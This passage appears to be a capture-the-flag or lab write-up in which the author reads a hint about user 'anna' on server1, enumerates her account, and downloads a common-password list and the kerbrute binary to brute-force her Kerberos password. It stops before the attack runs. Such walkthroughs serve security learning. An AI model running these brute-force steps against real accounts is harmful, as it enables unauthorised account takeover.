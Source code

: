 It's almost too easy, we're pretty much told next steps all the time &#128578;

# peter@server1

```
peter@workstation2:~$ ssh server1
<no password needed>

peter@server1:~$ ls -la
(...)
-rw-r--r-- 1 root  root   114 Jun  3 11:41 notes.txt

peter@server1:~$ cat notes.txt 
anna has an insecure password and probably used one of the 10k-most-common passwords...
anna is a kerberos admin!
```

What else do we know about `anna`?

```
peter@server1:~$ id -a anna
uid=995(anna) gid=994(anna) groups=994(anna)

peter@server1:~$ find / -user 'anna' 2>/dev/null
/home/anna

peter@server1:~$ ls -lad /home/anna
drwxr-x--- 1 anna anna 4096 Jun  3 11:43 /home/anna

peter@server1:~$ find / -name '*anna*' 2>/dev/null
/home/anna
/usr/share/terminfo/a/annarbor4080
```

But, the hint in `notes.txt` is pretty explicit. Let's do just that

## Brute-forcing anna's password

First, the list, [easy to find one](http://google.com/search?q=10k-most-common+passwords):

```
peter@server1:~$ wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Common-Credentials/10k-most-common.txt
```

While I did work in Kerberized environments before, I actually never tried bruteforcing it,
but [Google to the rescue](http://google.com/search?q=crack+kerberos+account+brute+force).

Out of many results, let's pick 
[github.com/ropnop/kerbrute](http://github.com/ropnop/kerbrute), as it has self-contained binary.

```
peter@server1:~$ uname -i
x86_64

peter@server1:~$ wget https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64

peter@server1:~$ chmod a+x kerbrute_linux_amd64
```
